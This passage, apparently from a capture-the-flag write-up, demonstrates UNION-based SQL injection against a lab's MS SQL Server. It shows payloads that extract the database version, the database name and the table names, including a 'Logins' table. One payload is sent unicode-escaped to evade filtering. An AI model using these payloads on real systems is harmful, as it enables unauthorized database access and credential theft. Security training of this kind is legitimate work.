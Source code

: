 That gave us a null result and so we know that the query being used is only selecting the 5 columns. We can now use a UNION select to submit our own SQL queries. Since this is a Windows box, we can assume that the database is MS SQL Server. Using the Cheat Sheet at PayloadsAllTheThings \(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md\), we can get the database version and database name by using the query:

&gt; a' union select 1,@@version,db\_name\(\),'4','5'--

\[\*\] Sending \u0074\u0065\u0073\u0074\u0027\u0020\u0075\u006e\u0069\u006f\u006e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u0040\u0040\u0076\u0065\u0072\u0073\u0069\u006f\u006e\u002c\u0064\u0062\u005f\u006e\u0061\u006d\u0065\u0028\u0029\u002c\u0027\u0034\u0027\u002c\u0027\u0035\u0027\u002d\u002d

\[

 {

 "email": "4",

 "id": 1,

 "name": "Microsoft SQL Server 2017 \(RTM\) - 14.0.1000.169 \(X64\) \n\tAug 22 2017 17:04:49 \n\tCopyright \(C\) 2017 Microsoft Corporation\n\tStandard Edition \(64-bit\) on Windows Server 2016 Standard 10.0 &lt;X64&gt; \(Build 14393: \) \(Hypervisor\)\n",

 "position": "Hub\_DB",

 "src": "5"

 }

\]

So we have confirmed that it is SQL Server and the database name is Hub\_DB. We can get the table names from the database using

&gt; a' UNION SELECT 1,table\_name,3,4,5 FROM INFORMATION\_SCHEMA.TABLES-- -

…

\[

 {

 "email": "4",

 "id": 1,

 "name": "Colleagues",

 "position": "3",

 "src": "5"

 },

 {

 "email": "4",

 "id": 1,

 "name": "Logins",
